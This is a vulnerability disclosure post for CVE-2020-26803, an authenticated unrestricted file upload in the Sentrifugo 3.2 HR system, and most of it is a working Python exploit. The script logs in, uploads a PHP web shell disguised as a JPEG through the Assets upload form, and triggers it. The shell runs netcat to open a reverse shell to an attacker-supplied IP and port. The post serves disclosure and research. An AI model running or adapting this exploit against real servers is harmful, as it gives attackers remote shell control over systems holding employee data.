 ```yaml
---
title: Sentrifugo 3.2 | RCE [Authenticated] (assets) | CVE-2020-26803
author: Fatih Çelik
date: 2020-10-06 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Software**: https://sourceforge.net/projects/sentrifugo/

**Version**: 3.2

**Vulnerability**: Unrestricted File Upload

**CVE**: CVE-2020-26803

**Exploit-DB**: https://www.exploit-db.com/exploits/48997

> Sentrifugo is a FREE and powerful Human Resource Management System that can be easily configured to meet your organizational needs... Sentrifugo makes your organization’s HR process easier. It is packed with HR essential modules like Appraisal, Time Management, Leave Management, Employee Management, Analytics, Hiring/Recruitment, Background Check, Service Desk and much more.Sentrifugo furnishes a complete HRM solution facilitating a strategic and comprehensive approach to manage people and the workplace, thus enabling the employee(s) to contribute effectively and productively towards the organization’s goals. Sentrifugo is the only solution you'll need for managing HR processes. It offers a host of adaptable features to meet the needs of both managers and employees.

Reference:  https://sourceforge.net/projects/sentrifugo/

### **Vulnerability Description:**

In Sentrifugo web application, users can upload an image under "Assets -> Add" tab.  This "Upload Images" functionality is suffered from "Unrestricted File Upload" vulnerability so attacker can upload malicious files using this functionality and control the server.

I wrote an exploit to demonstrate the vulnerability. You need to change hardcoded values before running the exploit.

## Exploit

```python
import requests
from bs4 import BeautifulSoup
from ast import literal_eval

'''
You should change the below hardcoded inputs to get a reverse shell.
'''

login_url = "http://XXX.XXX.XXX.XXX/sentrifugo/index.php/index/loginpopupsave"
upload_url = "http://XXX.XXX.XXX.XXX/sentrifugo/index.php/assets/assets/uploadsave"
call_shell = "http://XXX.XXX.XXX.XXX/sentrifugo/public/uploads/assets_images_temp/"
username = "xxxx"
password = "xxxx"

attacker_ip = "XXX.XXX.XXX.XXX"
listener_port = "4444"

# Set proxy for debugging purposes

proxy = {"http": "http://XXX.XXX.XXX.XXX:8080"}

# Log in to the system

session = requests.Session()
request = session.get(login_url)
body = {"username":username,"password":password}
# session.post(login_url, data=body, proxies=proxy) 
session.post(login_url, data=body) # Send a request without proxy
print("Logged in to the application..")

# Upload the PHP shell
files = [
    ('myfile', 
        ('shell.php',
        '<?php system(\'nc.traditional {} {} -e /bin/bash\'); ?>'.format(attacker_ip,listener_port),
        'image/jpeg')
    )
]
# r = session.post(upload_url, files=files, proxies=proxy)
r = session.post(upload_url, files=files) # Send a request without proxy
response = r.content
dict_str = response.decode("UTF-8")
response = literal_eval(dict_str) # Convert bytes to dictionary
filename = response["filedata"]["new_name"]
url = call_shell + filename
print("PHP file is uploaded --> {}".format(url))

# Trigger the shell

session.get(url)
```

